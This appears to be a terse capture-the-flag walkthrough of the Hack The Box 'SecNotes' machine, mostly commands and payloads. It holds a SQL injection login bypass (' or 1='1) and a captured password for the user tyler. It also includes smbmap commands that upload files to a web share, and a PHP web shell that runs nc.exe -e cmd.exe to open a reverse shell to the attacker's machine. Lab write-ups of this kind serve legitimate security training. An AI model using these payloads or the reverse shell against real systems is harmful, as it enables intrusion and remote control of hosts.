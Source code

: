 
`tyler@secnotes.htb`

tyler

Sign up as:
```html - username
' or 1='1
```

Then login

Enumerate for info:

`tyler:92g!mA8BGjOirkL%OG*&`

```bash - kali
smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H $TARGET -P 445
```

```bash - kali
smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H $TARGET -P 445 -r 'new-site'
```

---

rev.php

```php
<?php
system('nc.exe -e cmd.exe $KALI 443')
?>
```

---

```bash - kali
smbmap -H $TARGET -u tyler -p '92g!mA8BGjOirkL%OG*&' --upload nc.exe  'new-site/nc.exe' && smbmap -H $TARGET -u tyler -p '92g!mA8BGjOirkL%OG*&' --upload rev.php 'new-site/rev.php'
```

![[1._rlwrap]]

http://10.129.218.9:8808/rev.php

[[6._Windows Subsystem for Linux]]

